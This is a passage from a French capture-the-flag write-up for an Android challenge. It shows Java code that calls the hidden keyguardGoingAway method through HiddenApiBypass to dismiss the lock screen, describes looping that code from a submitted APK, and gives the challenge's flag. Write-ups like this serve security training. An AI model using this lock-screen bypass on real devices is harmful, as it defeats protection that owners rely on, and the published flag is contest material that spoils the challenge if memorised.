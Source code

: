 Voici le code implémentant cette logique :

```java
Log.d("Status", "Trying to unlock...");
// Get the system service from the current activity
ActivityManager activityService = (ActivityManager) getSystemService(Context.ACTIVITY_SERVICE);
// Get the service task from the IActivityTaskManager object
var IActivityTaskManager_StubProxy = HiddenApiBypass.invoke(activityService.getClass(), activityService, "getTaskService");
// Check if method exists, from ActivityTaskManagerService class type
HiddenApiBypass.getDeclaredMethod(IActivityTaskManager_StubProxy.getClass(), "keyguardGoingAway", Integer.TYPE);
// Remove keyguard, "31" sets every flag
HiddenApiBypass.invoke(IActivityTaskManager_StubProxy.getClass(), IActivityTaskManager_StubProxy, "keyguardGoingAway", 31);
Log.d("Status", "Device should be unlocked !");
```

Une fois confirmation de l'exploitation, nous pouvons implémenter une boucle appelant ce code toutes les secondes, afin de déverrouiller l'écran en continu. Enfin, nous soumettons l'APK à l'émulateur distant, qui nous affiche le flag, dans la seconde capture d'écran.

---

Une version de la solution, implémentant un "trigger" à distance, via une requête HTTP, est également disponible.


### Flag

`BZHCTF{k3yGUaRD_is_l0ng_G0N3_Away_#;#}`

### Ressources additionnelles

- Flags pour `keyguardGoingAway()` : https://github.com/aosp-mirror/platform_frameworks_base/blob/034f11bb0b5f1aa9be1f6d8f6ce62bb069341729/core/java/android/view/WindowManagerPolicyConstants.java#L46
    - Flags processing : https://github.com/aosp-mirror/platform_frameworks_base/blob/034f11bb0b5f1aa9be1f6d8f6ce62bb069341729/services/core/java/com/android/server/wm/KeyguardController.java#L321 and https://github.com/aosp-mirror/platform_frameworks_base/blob/034f11bb0b5f1aa9be1f6d8f6ce62bb069341729/packages/SystemUI/src/com/android/systemui/keyguard/KeyguardViewMediator.java#L2798
- `getSystemService` : https://developer.android.com/reference/android/content/Context#getSystemService(java.lang.Class%3CT%3E)


### Code additionnel

```java
// List available methods (hidden or not) from android.app.IActivityTaskManager
List<Executable> methods = HiddenApiBypass.getDeclaredMethods(IActivityTaskManagerStubProxy.getClass());
for (Object method : methods) {
    Log.d("Methods", method.toString());
}
```
